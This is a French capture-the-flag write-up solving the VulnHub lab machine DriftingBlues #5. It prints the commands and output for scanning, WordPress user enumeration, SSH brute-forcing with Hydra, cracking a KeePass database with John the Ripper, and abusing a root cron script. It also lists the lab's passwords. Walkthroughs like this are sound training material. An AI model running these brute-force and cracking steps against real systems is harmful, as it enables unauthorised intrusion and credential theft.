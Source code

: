 ```yaml
---
title: Solution du CTF DriftingBlues #5 de VulnHub
tags: [CTF, VulnHub]
---
```


Le 5ème élément
---------------

Challenge téléchargeable sur VulnHub [à cette adresse](https://www.vulnhub.com/entry/driftingblues-5,662/). Nmap nous indique tout de suite la présence d'un Wordpress.  

```
$ sudo nmap -sCV -T5 -p- 192.168.56.10 
[sudo] Mot de passe de root :  
Starting Nmap 7.92 ( https://nmap.org )
Nmap scan report for 192.168.56.10 
Host is up (0.00039s latency). 
Not shown: 65533 closed tcp ports (reset) 
PORT   STATE SERVICE VERSION 
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA) 
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA) 
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519) 
80/tcp open  http    Apache httpd 2.4.38 ((Debian)) 
|_http-generator: WordPress 5.6.2 
|_http-title: diary – Just another WordPress site 
|_http-server-header: Apache/2.4.38 (Debian)
```

C'est toujours mieux d'avoir un outil pour énumérer les utilisateurs au lieu de le faire à la main :  

```
$ docker run -it --rm wpscanteam/wpscan --url http://192.168.56.10/ -e ap,at,u
--- snip ---

[+] abuzerkomurcu 
 | Found By: Author Posts - Author Pattern (Passive Detection) 
 | Confirmed By: 
 |  Rss Generator (Passive Detection) 
 |  Wp Json Api (Aggressive Detection) 
 |   - http://192.168.56.10/index.php/wp-json/wp/v2/users/?per_page=100&page=1 
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 |  Login Error Messages (Aggressive Detection) 

[+] gill 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection) 

[+] collins 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection) 

[+] satanic 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection) 

[+] gadd 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Comme cette série de CTFs se prête volontiers aux jeux de pistes j'ai directement extrait les mots des pages web en utilisant CeWL. Exemple :  

```
$ docker run -it --rm cewl http://192.168.56.10/index.php/2021/02/24/a-deep-dive-on-the-blancpain-fifty-fathoms/ >> words.txt
```

Bien sûr on prendra soin de trier et de retirer les doublons (voir pages de manuel de sort et uniq) avant de bruteforcer.  

```
$ docker run -v /tmp/:/data -it --rm wpscanteam/wpscan --url http://192.168.56.10/ -U abuzerkomurcu,gill,collins,satanic,gadd -P /data/words.txt
--- snip ---
[!] Valid Combinations Found: 
 | Username: gill, Password: interchangeable
```

Hmmm cet utilisateur n'est pas l'admin. Il peut uploader des médias mais le type de fichier est vérifié...  

Sur le Wordpress je remarque une page de brouillon baptisée *Privacy Policy — Draft, Privacy Policy Page* malheureusement je ne peux pas y accéder.  

Dans la liste des images uploadées il y a le fichier *dblogo.png*. Il ne m'avait pas spécialement attiré, d'autant plus que les dossiers sous */wp-content/uploads/* sont listables, il n'y a donc aucun besoin d'obtenir un compte sur le Wordpress pour le retrouver. Quoiqu'il en soit si on le regarde avec un éditeur hexa on trouve ce tag EXIF :  

```html
<rdf:li photoshop:LayerName="ssh password is 59583hello of course it is lowercase maybe not " photoshop:LayerText="ssh password is 59583hello of course it is lowercase maybe not :)"/>
```

Je n'avais pas envie de me casser la tête dessus alors j'ai réutilisé un code Python [ici](https://www.geeksforgeeks.org/permute-string-changing-case/). Il n'est pas parfait, il génère des dupliquas quand le mot contient des caractères autres que des lettres.  

Une fois la wordlist avec les permutations générées on se rend compte que ça ne servait à rien :  

```
$ hydra -L users.txt -P cases.txt ssh://192.168.56.10 
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway). 

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4 
[DATA] max 16 tasks per 1 server, overall 16 tasks, 160 login tries (l:5/p:32), ~10 tries per task 
[DATA] attacking ssh://192.168.56.10:22/ 
[22][ssh] host: 192.168.56.10   login: gill   password: 59583hello 
1 of 1 target successfully completed, 1 valid password found
```

L'accès SSH obtenu permet d'obtenir un premier flag.  

Password exchange
-----------------

Dans le dossier de l'utilisateur se trouve une archive pour le gestionnaire de mots de passe Keypass. On utilise un utilitaire de *John The Ripper* pour en obtenir un hash :  

```
$ keepass2john keyfile.kdbx  
keyfile:$keepass$*2*60000*0*86fe1a63955b5984c0adb127a869153f24c41fdc56678d555f778d1309f9867c*e580d1bef4bf0f44b845fce13c9648cd22f143760be5bae503a419a7f76a21f0*e99d45aab90c26200191dbca6b3fae34*e3169392c5eec5e094b
1f22a01084f894598280874de2bf8291ea2185051f7e3*78d0b1eb59343754ce0ce33b2efb5e25c595317099a65ed208bfc2f6ab8c8dcd
```

C'est cassé relativement rapidement sans GPU :  

```
$ john --wordlist=rockyou.txt  hash.txt 
Using default input encoding: UTF-8 
Loaded 1 password hash (KeePass [SHA256 AES 32/64]) 
Cost 1 (iteration count) is 60000 for all loaded hashes 
Cost 2 (version) is 2 for all loaded hashes 
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes 
Will run 4 OpenMP threads 
Press 'q' or Ctrl-C to abort, almost any other key for status 
porsiempre       (keyfile)
```

On en extrait les entrées suivantes :  

```
2real4surreal
buddyretard
closet313
exalted
fracturedocean
zakkwylde
```

Aucun de ces mots de passe n'est accepté pour *root* que ce soit via *su* ou *SSH*... oups.  

LinPEAS indique la présence d'un dossier inhabituel à la racine :  

```
╔══════════╣ Unexpected in root 
/vmlinuz.old 
/initrd.img 
/initrd.img.old 
/vmlinuz 
/keyfolder
```

Ce dernier dossier est vide... WTF !  

Si on vérifie les processus lancés sur la machine avec *pspy* on voit une tache cron :  

```
2022/01/20 13:00:01 CMD: UID=0    PID=14314  | /usr/sbin/CRON -f  
2022/01/20 13:00:01 CMD: UID=0    PID=14315  | /bin/sh -c /root/key.sh  
2022/01/20 13:00:01 CMD: UID=0    PID=14316  | /bin/bash /root/key.sh
```

Et le script en question n'est pas accessible. Ma seule idée a été de créer des fichiers ayant le nom des pass précédemment trouvés dans le dossier. L'idée était finalement correcte mais il ne fallait placer qu'un seul fichier à la fois. Ainsi avec *fracturedocean* la tache CRON faisait apparaître un fichier *rootcreds.txt* avec le contenu suivant :  

```
root creds 

imjustdrifting31
```

Ces identifiants permettent bien sûr l'accès root et l'obtention du flag final.  

Sous le capot
-------------

Voici le script lié à la tache CRON :  

```bash
#!/bin/bash 

if [[ $(ls /keyfolder) == "fracturedocean" ]]; then 
        echo "root creds" >> /keyfolder/rootcreds.txt 
        echo "" >> /keyfolder/rootcreds.txt 
        echo "imjustdrifting31" >> /keyfolder/rootcreds.txt 
fi

```

Un peu déçu sur ce CTF par rapport aux autres en raison d'un peu de guessing. Il aurait fallut que l'image ait un nom plus explicite et le script final devrait fonctionner à partir du moment où le fichier attendu est présent.  


*Published January 20 2022 at 18:11*
